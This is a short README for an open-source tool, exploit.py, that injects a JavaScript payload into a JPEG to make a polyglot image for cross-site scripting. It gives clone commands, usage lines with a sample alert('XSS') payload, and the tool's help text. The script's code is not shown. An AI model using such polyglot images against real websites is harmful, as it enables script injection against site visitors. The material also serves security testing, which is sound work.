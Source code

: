 XSS Injection in JPEG
===
All contribution goes to [@medusa_0xf](https://twitter.com/medusa_0xf). This script implements what medusa presented [here](https://twitter.com/medusa_0xf/status/1512301446271680517)

### Installation
```
git clone https://github.com/js-on/jpeg_polyglot_xss.git
cd jpeg_polyglot_xss/
```

### Usage
- Read payload from stdin: `python3 exploit.py -i test.jpeg -o injected.jpeg -pr '*/=alert("XSS")/*'`
- Read payload from file: `python3 exploit.py -i test.jpeg -o injected.jpeg -pf payload`

### Help
```
usage: exploit.py [-h] [-pf PAYLOAD_FILE] [-pr PAYLOAD_READ] -i INPUT -o OUTPUT

options:
  -h, --help            show this help message and exit
  -pf PAYLOAD_FILE, --payload-file PAYLOAD_FILE
                        Path to text file with payload
  -pr PAYLOAD_READ, --payload-read PAYLOAD_READ
                        Payload
  -i INPUT, --input INPUT
                        Input file (JPEG)
  -o OUTPUT, --output OUTPUT
                        Output file (JPEG)
```
